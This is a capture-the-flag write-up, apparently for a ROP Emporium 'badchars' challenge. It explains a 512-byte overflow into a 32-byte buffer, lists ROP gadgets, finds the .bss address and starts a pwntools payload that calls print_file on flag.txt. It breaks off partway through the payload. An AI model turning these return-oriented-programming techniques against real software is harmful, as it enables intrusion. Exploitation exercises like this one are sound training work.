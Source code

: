 This function insert **512 bytes** of user input into **32 bytes** of buffer.

The binary also has a function called **print_file**:

```c
void print_file(char *param_1)
{
  char buffer [40];
  FILE *fd;
  
  fd = (FILE *)0x0;
  fd = fopen(param_1,"r");
  if (fd == (FILE *)0x0) {
    printf("Failed to open file: %s\n",param_1);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(buffer,33,fd);
  puts(buffer);
  fclose(fd);
  return;
}
```

We can perform the same attack of **write4** challenge, we only need a way to substitute all of **badchars** that the program replace.

Inside the the binary there are these usefull **gadget**:

```
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x0000000000400634 : mov qword ptr [r13], r12 ; ret
0x00000000004006a3 : pop rdi ; ret
```

So we can put the string **flag.txt** into the stack, **pop** into the register **r12** and **pop** into the register **r13** the address where to store the string.

After that we can use the gadget **mov qword ptr [r13], r12** that store the string and call the function **print_file** with the address of the stored string.

We can use the **.bss** segment to store the string, we can find its address using:

```bash
objdump -x badchars | grep __bss_start
```

With this result:

```
0000000000601038 g       .bss	0000000000000000              __bss_start
```

This segment is **readable** and **writable**, so it is perfect for our purpose.

We can build the following payload:

```python
buffer_dim = 32
offset = buffer_dim + 8

print_file = exe.symbols['print_file']

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
pop_r12_pop_r13_pop_r14_pop_r15 = rop.find_gadget(['pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'])[0]
mov_qword_ptr_r13_r12 = 0x400634
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

string_address = 0x601038
```